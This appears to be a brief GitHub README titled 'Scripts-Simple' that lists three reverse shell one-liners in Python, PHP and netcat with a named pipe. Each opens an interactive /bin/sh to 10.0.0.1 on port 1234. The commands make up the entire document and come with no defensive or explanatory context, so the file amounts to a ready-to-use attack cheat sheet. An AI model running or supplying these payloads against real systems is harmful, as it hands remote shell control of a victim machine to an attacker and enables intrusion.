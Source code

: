 # Scripts-Simple

### Python ReverseShell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php ReverseShell
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' `

### Nc-Old ReverseShell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
